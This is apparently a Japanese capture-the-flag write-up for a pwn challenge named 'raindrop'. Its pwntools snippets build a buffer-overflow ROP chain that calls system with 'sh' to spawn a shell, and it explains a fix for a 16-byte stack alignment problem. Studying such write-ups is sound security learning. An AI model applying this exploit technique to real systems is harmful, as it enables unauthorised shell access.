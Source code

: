 ```yaml
---
tags:
  - pwn/bof
  - pwn/rop
createdAt: 2024/11/22
---
```


# raindrop

## 概要

* Buffer Overflow
* Return Oriented Programming
* `sh\x00`

## 観察

* system と `sh\x00` があるので呼び出す

## 解法

```python
rop.call('system', [next(exe.search(b"sh\x00"))])
payload = flat(bytes(0x18), rop.chain())
```

がうまく動作しなかった。

以下のエラーが出ていたし、[16 bytes alignment の問題](https://sok1.hatenablog.com/entry/2022/01/17/050710)。

```plaintext
► 0x736db9f07973 <do_system+115>    movaps xmmword ptr [rsp], xmm1                   <[0x7ffca3852948] not aligned to 16 bytes>
```

じゃあ、以下のように alignment を揃えればよさそうだけど、

```python
rop.raw(rop.find_gadget(['ret'])[0])
rop.call('system', [next(exe.search(b"sh\x00"))])
payload = flat(bytes(0x18), rop.chain())
```

これだと 0x30 バイトを超えてしまう。

代わりに `call system` を呼べば、0x30 バイト以内で alignment の問題を回避できる。

## 余談①

magic number を避けて、objdump_search なるライブラリを作って見たものの、`call ...` を直接呼ばないといけない状況はあまりない気がする。

## 余談②

GDB がうまく動作しない問題は以下で解決した。

```bash
echo "set follow-fork-mode parent" >> ~/.gdbinit
```
